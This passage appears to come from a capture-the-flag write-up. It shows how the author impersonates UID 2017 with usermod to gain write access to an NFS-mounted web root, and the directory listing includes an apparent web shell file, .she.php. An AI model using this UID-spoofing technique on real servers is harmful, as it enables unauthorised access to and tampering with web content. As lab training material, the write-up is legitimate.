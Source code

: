 No acccess to the folder, but the permissions of the mounted folder itself is interesting!   
Tried to create the user, and realized i need and user with that UID:   
```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo adduser 2017                                         
adduser: To avoid ambiguity with numerical UIDs, usernames which
            consist of only digits are not allowed.
```

https://www.cyberciti.biz/faq/linux-change-user-group-uid-gid-for-all-owned-files/

So im using my `test` , and changing it's id as needed, for `2017` 
```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo usermod -u 2017 test
                                                                                                                    
┌──(kali㉿kali)-[/mnt]
└─$ su test                  
Password: 
┌──(test㉿kali)-[/mnt]
└─$ ls -la squashed/                                                                                                
total 64
drwxr-xr-- 5 test www-data  4096 Apr 17 15:05 .
drwxr-xr-x 3 root root      4096 Apr 17 14:43 ..
drwxr-xr-x 2 test www-data  4096 Apr 17 15:05 css
-rw-r--r-- 1 test www-data    44 Oct 21 13:30 .htaccess
drwxr-xr-x 2 test www-data  4096 Apr 17 15:05 images
-rw-r----- 1 test www-data 32532 Apr 17 15:05 index.html
drwxr-xr-x 2 test www-data  4096 Apr 17 15:05 js
-rw-r--r-- 1 test www-data    31 Apr 17 00:52 .she.php
-rw-r--r-- 1 test www-data  1024 Apr 17 00:52 ..she.php.swp
```

And i was back in action!!   
Made a test.html with only word `test`   

![](squashed_res/squashed_test_html.png)
